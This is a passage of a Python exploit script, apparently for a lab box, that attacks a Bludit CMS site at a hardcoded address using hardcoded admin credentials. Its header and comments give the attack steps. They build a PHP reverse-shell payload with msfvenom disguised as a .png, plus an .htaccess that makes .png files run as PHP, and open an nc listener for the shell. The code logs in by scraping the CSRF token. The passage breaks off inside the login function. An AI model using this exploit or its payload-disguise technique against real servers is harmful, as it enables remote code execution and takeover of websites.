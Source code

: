 #### USAGE ####
# 1. Create payloads: .png with PHP payload and the .htaccess to treat .pngs like PHP
# 2. Change hardcoded values: URL is your target webapp, username and password is admin creds to get to the admin dir
# 3. Run the exploit
# 4. Start a listener to match your payload: `nc -nlvp 53`, meterpreter multi handler, etc
# 5. Visit your target web app and open the evil picture: visit url + /bl-content/tmp/temp/evil.png

#!/usr/bin/env python3

import requests
import re
import argparse
import random
import string
import base64
from requests.exceptions import Timeout

url = 'http://10.10.10.191'  # CHANGE ME
username = 'fergus'  # CHANGE ME
password = 'RolandDeschain'  # CHANGE ME

# msfvenom -p php/reverse_php LHOST=127.0.0.1 LPORT=53 -f raw -b '"' > evil.png
# echo -e "<?php $(cat evil.png)" > evil.png 
payload = 'evil.png'  # CREATE ME

# echo "RewriteEngine off" > .htaccess
# echo "AddType application/x-httpd-php .png" >> .htaccess
payload2 = '.htaccess'  # CREATE ME

def login(url,username,password):
    """ Log in with provided admin creds, grab the cookie once authenticated """

    session = requests.Session()
    login_page = session.get(url + "/admin/")
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"',
                           login_page.text
                 ).group(1)
    cookie = ((login_page.headers["Set-Cookie"]).split(";")[0].split("=")[1])
    data = {"save":"",
            "password":password,
            "tokenCSRF":csrf_token,
            "username":username}
    headers = {"Origin":url,
               "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
               "Upgrade-Insecure-Requests":"1",
               "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0",
               "Connection":"close",